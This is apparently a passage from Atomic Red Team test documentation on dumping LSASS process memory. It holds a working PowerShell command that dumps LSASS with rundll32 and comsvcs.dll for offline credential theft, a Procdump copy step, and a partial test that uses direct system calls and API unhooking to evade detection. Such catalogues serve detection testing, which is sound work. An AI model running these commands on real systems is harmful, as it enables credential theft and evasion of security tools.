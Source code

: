 ```powershell
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```




<br/>
<br/>

## Atomic Test #2 - Dump LSASS.exe Memory using comsvcs.dll
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with a built-in dll.

Upon successful execution, you should see the following file created $env:TEMP\lsass-comsvcs.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 2536dee2-12fb-459a-8c37-971844fa73be






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass-comsvcs.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Dump LSASS.exe Memory using direct system calls and API unhooking
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved using direct system calls and API unhooking in an effort to avoid detection. 
https://github.com/outflanknl/Dumpert
https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
Upon successful execution, you should see the following file created C:\\windows\\temp\\dumpert.dmp.

If you see a message saying \"The system cannot find the path specified.\", try using the  get-prereq_commands to download the  tool first.

**Supported Platforms:** Windows
